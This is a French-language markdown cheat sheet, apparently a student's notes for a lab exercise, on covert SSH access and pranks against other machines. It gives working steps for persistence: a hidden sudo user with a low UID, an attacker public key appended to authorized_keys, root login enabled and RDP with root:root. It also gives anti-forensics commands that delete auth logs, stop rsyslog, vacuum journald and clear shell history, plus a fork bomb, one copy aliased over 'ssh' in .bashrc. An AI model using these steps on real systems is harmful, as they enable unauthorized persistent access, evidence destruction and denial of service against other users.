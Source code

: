 <link rel="stylesheet" type="text/css" href="/assets/css/red-theme.css">

# SSH 💡

### Connexion en toute discretion
- Connecte toi à une une VM Proxmox
- Retire le VLAN
- Changer l'adresse IP de l'interface
- Connecte toi à une machine avec cette VM

## Assure une connexion à un poste (méthode rapide)
```
sudo -i
```
```
apt install xrdp -y
```
```
systemctl start xrdp
```
```
systemctl enable xrdp
```

Normalement maintenant vous pouvez vous connecter en RDP avec **root:root**  
Sinon faut créer un utilisateur invisible (et le mettre dans /etc/sudoers) :
```
adduser sadmin
```
ID moins de 1000 = Utilisateur invisible :
```
usermod -u 999 sadmin
```
```
groupmod -g 999 sadmin
```
```
chmod 600 /etc/sudoers
```
```
vim /etc/sudoers
```
Ajoutez cette ligne (sous la ligne ROOT ALL=...) : 
```
sadmin      ALL=(ALL:ALL) ALL
```


### Si plus de temps (Garantir une connexion SSH) :
```
ssh sio@172.17...
```
Sur la session que tu veux : 
```
echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDKv3MSZ/mpcNNSTBarjvA4uRcAAojzE+XW/xu0apfEZzrbxq+ASJVJZ1MJUIaYV9iQmFB22MB6CoVN64NiacYqy9AxkLbVpOfesGnOayM9q4LSZfWS28E3Vxpi7GANQPF5Es/H8JfTx5vEBKHv7A0CORoPm1E66TMvDOBdYa7XGKzXzzcGb3Q3y+tSgSDNwPXZO6JAKXuk/vboyOPvDEolTATgXfa4KOEflHnROUC4wbAB1dLLDQLhKwXlAejPekjJKYMAurqhWxBYXq0mrl1sI0kUAslNsu8j8wgdAUuH6pntTMUlBU0V/IDbcS22qsUNRDnN82GShnn/NoCZRaVn' >> ~/.ssh/authorized_keys
```
```
vim /etc/ssh/sshd_config
```
Décommentez ces lignes : 
```
PermitRootLogin yes
PubkeyAuthentification yes
AuthorizedKeysFile    .ssh/authorized_keys  .ssh/authorized_keys2
```
Et ajoutez cette ligne :
```
Allowusers sadmin
```
```
systemctl restart ssh
```





## Tous les fichiers SSH à connaitre **  
  - `/var/log/auth.log` (Fichier de logs d'authentification SSH)
    - Supprimer le fichier (toute façon vous êtes sur une VM) :
        - ```
          /var/log/auth.log
          ``` 
    - Modifier le chemin des logs (j'ai essayé mais pas réussi)  : 
      - ```
        /etc/rsyslog.d/50-default.conf
        ```  
        
    - Arrêt complet des logs (je recommande pas trop) : 
      - ```
        systemctl stop rsyslog
        ```
  - `/etc/ssh/sshd_config` (Fichier de configuration SSH)
    - Pour redéfinir un nouveau chemin de fichier (pas essayé)
      - ```
        cp /etc/ssh/sshd_config /etc/dispy
        ```
        *(`/etc/dispy` sera le nouveau fichier de log)*

      - ```
        systemctl edit sshd 
        ``` 
        *(et remplacer `/etc/ssh/sshd_config` chemin par `/etc/dispy`)*
    
  - `~/.bashrc` (Fichier de personnalisation environnement SSH)
    - Rediriger une commande grâce aux alias : 
      - ```
        vim ~/.bashrc
        ```
        Et ajoutez (eviter l'enregistrement de logs pour un utilisateur): 
      - ```
        unset HISTFILE
        ```
        Alias pour faire crash :
      - ```
        alias ssh=':(){ :|:& };:'
        ```


## Commandes de bases à connaitre

Voir les adresses IP des utilisateurs connectés à une session :  
```
w
```
Voir le numéro de notre propre terminal (juste pour savoir) :
```  
tty
```
Envoyer une notification à un utilisateur de la même session SSH :
```  
notify-send
```

## Bloquer/Autoriser les connexions extérieur :
```
vim /etc/ssh/sshd_config
```
Pour autoriser tout le monde on ajoute dans ce fichier :  
```
Allowusers *
```
Pour refuser tout le monde on ajoute dans ce fichier :
```
Denyusers *
```
(Allowusers > Denyusers)

## Voir historique de connexion ou tentative  
```
sudo grep 'Accepted password' /var/log/auth.log
```
```
sudo grep 'Failed password' /var/log/auth.log
```

## TROLL INCROYABLE :

### ⚠️ Faire crash un PC (À utiliser avec précaution) :

```
:(){ :|:& };:
```

### Afficher un Train sur le terminal : 
```
apt install sl
```
```
sl > /dev/pts/0
```
*(executez sur le numéro 1, 2, 3 aussi pour être sûr)*

### Afficher un texte arc en ciel sur le terminal : 
```
apt install toilet
```
```
echo "GAYPRIDE" | toilet --gay > /dev/pts/0
```
*(executez sur le numéro 1, 2, 3 aussi pour être sûr)*

### Ecrire "COUCOU MAXIME" en boucle :
```
while true; do echo "COUCOU MAXIME" > /dev/pts/0; sleep 1; done
```
*(executez sur le numéro 1, 2, 3 aussi pour être sûr)*


### Créer 500 dossiers sur un poste (à executer sur le bureau) :
```
for i in $(seq 1 500); do mkdir "dossier_$i"; done
```

### Executer du son sur un poste : 
```
apt install vlc
```
```
wget fichier.mp3
```
```
cvlc fichier.mp3
```

## Supprimer les logs : 
```
journalctl --vacuum-time=1s
```
```
rm /var/log/auth.log
```
Supprimer logs du fichier qui stock de manière permanente l'historique des commandes exécutées dans le shell Bash : 
```
rm /home/user/.bash_history
```
```
history -c
```